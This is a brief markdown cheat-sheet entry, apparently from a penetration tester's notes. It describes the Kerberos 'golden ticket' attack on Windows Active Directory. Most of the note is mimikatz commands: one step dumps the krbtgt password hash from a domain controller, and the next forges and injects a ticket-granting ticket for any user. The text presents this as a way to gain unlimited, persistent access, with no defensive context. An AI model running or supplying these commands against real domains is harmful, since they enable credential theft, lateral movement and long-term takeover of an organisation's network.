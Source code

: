 ```yaml
---
id: Golden Ticket
aliases:
  - Golden Ticket
tags:
  - windows
  - AD
  - kerberos
  - lateral
  - persistence
---
```

Create a custom TGT (= golden ticket) with the `krbtgt` password hash.

Golden tickets grant unlimited and persistent access to AD resources.

## With mimikatz.exe

1. On DC, dump krbtgt hash:
```mimikatz
privilege::debug
lsadump::lsa /patch
```

2. On any machine, create a TGT with the krbtgt hash:
```mimikatz
kerberos::purge
kerberos::golden /user:$USER /domain:$DOMAIN /sid:$DOM_SID /krbtgt:$HASH /ptt
misc::cmd
```
